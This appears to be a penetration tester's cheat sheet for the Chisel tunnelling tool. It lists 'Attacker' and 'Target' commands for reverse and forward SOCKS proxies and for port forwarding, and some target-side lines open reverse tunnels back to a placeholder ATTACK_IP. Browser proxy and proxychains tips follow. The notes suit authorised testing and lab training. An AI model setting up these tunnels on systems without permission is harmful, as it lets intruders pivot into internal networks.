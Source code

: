 ### Chisel client/server --help

### Author: https://github.com/jpillora/chisel/releases

### Reverse SOCKS proxy

 - Attacker: ./chisel server -p LISTENING_PORT --reverse &

 - Target: ./chisel client ATTACK_IP:LISTEN_PORT R:0.0.0.0:1080:SOCKS &

 - Target: ./chisel client ATTACK_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT

 - Target: ./chisel server -p TARGET_PORT --socks5

### Then open the web browser in Kali and configure the proxy settings.

#### 1) Go to "Manual Proxy configuration"

#### 2) On "SOCKS Host", add 127.0.0.1 on port 1080 and click the SOCKS5 radio button

#### 3) On "No proxy for", add 127.0.0.1

#### 4) On browser, connect to our target IP

### Forward SOCKS proxy

 - Target: ./chisel server -p LISTEN_PORT --socks5

 - Attacker: ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

## TIP:

#### Set the port in the proxychains file. (SOCKS5)

#### If you use forward proxy, set the port to whichever one you opened.

### Local Port Forward

 - Target: ./chisel server -p LISTEN_PORT

 - Attacker: ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

### Remote Port Forward

 - Attacker: ./chisel server -p LISTEN_PORT --reverse &

 - Target: ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

### Then on our machine, we browse to http://127.0.0.1:TARGET_LOCAL_PORT

## TIP:

#### Also use jobs then kill %num for chisel background processes too.

#### And use proxychains on your attacking machine
